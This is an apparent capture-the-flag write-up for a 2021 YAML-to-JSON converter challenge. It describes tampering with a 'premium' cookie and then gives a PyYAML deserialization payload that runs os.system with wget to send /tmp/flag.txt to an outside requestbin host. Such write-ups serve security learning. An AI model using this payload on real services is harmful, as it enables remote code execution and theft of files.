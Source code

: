 https://yaml-2-json.ctf2021.hackpack.club/

page offers a simple conversion from .yaml to .json

| ![](https://i.ibb.co/hdJ3Kpg/Screenshot-2021-04-17-Yaml-2-Json-Hackpack-CTF-2021.png)

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin


{
	!!python/object/apply:os.system ["wget http://requestbin.net/r/1b9a6hxj/?`cat /tmp/flag.txt`"]
}

